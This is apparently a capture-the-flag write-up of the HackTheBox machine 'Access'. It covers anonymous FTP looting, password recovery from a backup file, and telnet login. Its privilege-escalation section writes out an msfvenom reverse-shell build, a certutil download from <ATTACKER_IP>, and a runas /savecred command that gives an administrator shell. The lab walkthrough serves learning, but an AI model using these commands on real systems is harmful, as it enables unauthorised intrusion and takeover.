


## HackTheBox - Access

It starts with the usual nmap scan as.

`nmap -sS -T4 -sV -sC`

We see an FTP server that allows anonymous login, a telnet server and a web server.

An open FTP server sounds very inviting, of course.

I looked at that one first.

We see two folders `backups` and `Engineer`.

Backups are always interesting!

I came across a `backup.mdb` file which I downloaded.

Furthermore there was a file named `Access Control.zip` in the `Engineer` folder which I also downloaded.
I could not see the file yet, so I first looked at the `backup.md` file.

I somehow had problems to view the file with mdbtools, so I analyzed the content of the file with the output of the `strings` command and looked for possible passwords and usernames.

After some try and error I found the right password.

I extracted the file `7z x Access\ Control.zip` and a new file named `Access Control.pst` appeared.

I looked up the file type and what tool to use to view this file on linux and found `pst-utils` / `readpst`.

Instalation: `sudo apt install pst-utils`

Usage: `readpst -M -b -e -o ./output/ Access\ Control.pst`

And again a new file named `2.eml` appeared.
I looked at it and found some juicy information.

I took the open telnet server and logged in and got a shell access.

At the desktop I got the user flag.

# PrivEsc
I did some enumeration on the Windows system and rattled off my cheat sheet.
At the command `cmdkey /list` I saw that we have here <ins>Stored Credentials</ins>.

I established a root shell in the following steps:

1. create reverse-exe with msfvenom: `msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=1234 -f exe > rev.exe`
2. start python http.webserver: `python3 -m http.server`
3. download the reverse exe with `certutil.exe`: `certutil.exe -urlcache -split -f http://<ATTACKER_IP>:8000/rev.exe rev.exe`
4. use metasploit to set the appropriate reverse listener
5. run the privelege escalation with `runas.exe` and enjoy the new reverse shell as administrator: `runas.exe /savecred /user:administrator rev.exe`.

And there is our root flag:

